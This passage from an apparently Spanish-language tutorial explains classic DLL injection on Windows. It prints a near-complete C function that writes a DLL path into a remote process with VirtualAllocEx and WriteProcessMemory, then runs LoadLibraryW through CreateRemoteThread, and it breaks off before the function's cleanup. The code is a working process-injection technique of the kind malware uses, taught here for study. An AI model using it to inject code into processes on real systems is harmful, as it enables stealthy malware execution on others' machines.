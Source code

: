 ### Ejecución vía nuevo hilo

Creamos un hilo remoto que ejecutará `LoadLibraryW` con la ruta de nuestra DLL como argumento:

```c
// Crear hilo remoto que ejecutará LoadLibraryW con el nombre de la DLL
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
```

El hilo remoto cargará la DLL en el proceso objetivo, completando la inyección.


## Código completo

```c
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {

	BOOL		bSTATE                    = TRUE;
	
	LPVOID		pLoadLibraryW             = NULL;
	LPVOID		pAddress                  = NULL;
	
	// fetching the size of DllName *in bytes* 
	DWORD		dwSizeToWrite             = lstrlenW(DllName) * sizeof(WCHAR);

	SIZE_T		lpNumberOfBytesWritten    = NULL;

	HANDLE		hThread                   = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

	printf("[i] Executing Payload ... ");
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");


```